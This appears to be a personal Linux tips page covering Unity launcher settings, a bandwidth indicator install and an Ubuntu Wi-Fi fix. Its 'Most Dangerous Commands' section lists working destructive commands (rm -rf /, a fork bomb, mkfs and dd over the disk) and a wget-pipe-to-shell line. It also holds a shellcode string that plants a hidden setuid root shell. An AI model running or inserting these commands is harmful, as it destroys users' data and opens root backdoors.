 # Linux Stuff

## Move Unity Launcher (Icon Bar)

```gsettings set com.canonical.Unity.Launcher launcher-position Bottom```

```gsettings set com.canonical.Unity.Launcher launcher-position Left```

## Bandwidth Monitor (Indicator Netspeed - Unity)

```sudo apt-get install dconf-editor```

```sudo apt-add-repository ppa:fixnix/netspeed```

```sudo apt-get update```

```sudo apt-get install indicator-netspeed-unity```

## Most Dangerous Commands For Ubuntu

```rm command in Linux is used to delete files.```

```rm -r command deletes the folder recursively, even the empty folder.```

```rm -f command removes ‘Read only File’ without asking.```

```rm -rf / : Force deletion of everything in root directory.```

```rm -rf * : Force deletion of everything in current directory/working directory.```

```rm -rf . : Force deletion of current folder and sub folders.```

```:(){:|:&};:```

```mv /home/user/* /dev/null```

```wget http://malicious_source -O- | sh```

```mkfs.ext3 /dev/sda```

```dd if=/dev/random of=/dev/sda```

```char esp[] __attribute__ ((section(“.text”))) /* e.s.p
release */
= “\xeb\x3e\x5b\x31\xc0\x50\x54\x5a\x83\xec\x64\x68″
“\xff\xff\xff\xff\x68\xdf\xd0\xdf\xd9\x68\x8d\x99″
“\xdf\x81\x68\x8d\x92\xdf\xd2\x54\x5e\xf7\x16\xf7″
“\x56\x04\xf7\x56\x08\xf7\x56\x0c\x83\xc4\x74\x56″
“\x8d\x73\x08\x56\x53\x54\x59\xb0\x0b\xcd\x80\x31″
“\xc0\x40\xeb\xf9\xe8\xbd\xff\xff\xff\x2f\x62\x69″
“\x6e\x2f\x73\x68\x00\x2d\x63\x00″
“cp -p /bin/sh /tmp/.beyond; chmod 4755
/tmp/.beyond;”;```

## Ubuntu 17.04
### If Wifi is not connecting

####Edit the file /etc/NetworkManager/NetworkManager.conf

```sudo su```

```pico /etc/NetworkManager/NetworkManager.conf```

####Add the following code at the end of this file

```[device]
wifi.scan-rand-mac-address=no```

####After saving simply restart the network

```sudo service network-manager restart```
